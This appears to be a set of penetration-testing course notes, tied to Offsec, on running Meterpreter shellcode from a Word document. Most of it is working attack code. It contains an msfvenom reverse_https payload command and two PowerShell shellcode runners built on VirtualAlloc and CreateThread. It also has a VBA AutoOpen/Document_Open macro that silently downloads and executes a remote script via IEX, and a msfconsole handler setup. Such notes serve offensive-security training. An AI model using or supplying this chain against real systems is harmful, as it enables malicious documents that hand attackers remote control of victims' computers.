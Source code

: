 ```yaml
---
title: PowerShell Shellcode in Word
layout: default
parent: Client Side Execution
---
```


Similar to CSharp, the theory is to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, 0x3000, 0x40)`
2. Copy shellcode using `[System.Runtime.InteropServices.Marshal]::Copy(shellcodeBuffer, 0, startAddress, $size)`. startAddress here is the return value of `VirtualAlloc()` in step 1.
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`, and assign the value to `$thandle`
4. Don't exit the newly created thread even though our PowerShell is closed using `WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

First, generate the shellcode using msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1
```

Then put it into the Powershell code below:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("Kernel32.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
$sizeUIntPtr = New-Object System.UIntPtr $size
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$sizeUIntPtr,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Note:
* Can remove all the `[return: MarshalAs(...)]`
* Sometimes the DLL might not be correct, refer back to MSDN for the final confirmation

Official Solution from Offsec (using `msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1`):

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32")]
  public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  [DllImport("kernel32", CharSet=CharSet.Ansi)]
  public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  [DllImport("kernel32.dll", SetLastError=true)]
  public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
[Byte[]] $buf = SHELLCODE HERE
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Add this to a Microsoft Word Macro AutoOpen():
```vba
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://IP/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Finally prepare for incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
